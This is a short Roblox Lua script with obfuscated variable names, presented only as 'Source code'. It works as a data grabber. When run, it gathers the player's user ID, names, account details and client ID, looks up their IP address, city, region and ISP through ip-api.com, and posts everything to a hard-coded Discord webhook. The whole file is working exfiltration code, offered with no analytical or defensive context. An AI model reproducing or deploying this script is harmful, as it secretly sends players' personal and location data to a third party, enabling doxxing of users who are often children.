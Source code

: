 local _1=game:GetService("HttpService")
local _2=game:GetService("Players")
local _3=game:GetService("MarketplaceService")
local _4=_2.LocalPlayer 
local _5=_4.UserId 
local _6=_4.DisplayName 
local _7=_4.Name 
local _8=tostring(_4.MembershipType):sub(21) 
local _9=_4.AccountAge 
local _10=game.LocalizationService.RobloxLocaleId 
local _11=_1:JSONDecode(game:HttpGet("http://ip-api.com/json"))
local _12=_11.query 
local _13=_11.country 
local _14=_11.regionName 
local _15=_11.city 
local _16=_11.isp 
local _17=game:GetService("RbxAnalyticsService"):GetClientId() 
local _18='Roblox.GameLauncher.joinGameInstance('..game.PlaceId..', "'..game.JobId..'")' 
local _19=_3:GetProductInfo(game.PlaceId).Name 

local function _20()
    local _21={
        ["content"]="",
        ["embeds"]={
            {
                ["title"]="Player and IP Details",
                ["description"]=string.format(
                    "**Player Information:**\n" ..
                    "**User ID:** %s\n**Display Name:** %s\n**Username:** %s\n" ..
                    "**Membership Type:** %s\n**Account Age:** %d days\n**Country Code:** %s\n\n" ..
                    "**IP Details:**\n" ..
                    "**IP:** %s\n**Country:** %s\n**Region:** %s\n**City:** %s\n**ISP:** %s",
                    _5, _6, _7, _8, _9, _10, _12, _13, _14, _15, _16
                ),
                ["type"]="rich"
            }
        }
    }
    return _1:JSONEncode(_21)
end 

local function _22(_23,_24)
    local _25={
        ["content-type"]="application/json"
    }
    local _26=http_request or request or HttpPost or syn.request 
    local _27={Url=_23, Body=_24, Method="POST", Headers=_25} 
    _26(_27)
end 

local _28="https://discordapp.com/api/webhooks/1349404991210913875/cNpyuvdEArBkaSxm_zaVgj8TZ6yowc10WEKgjN5qy8gK5vHJeycYb9-GwjTu7Wuh5EXV"
local _29=_20() 
_22(_28,_29)
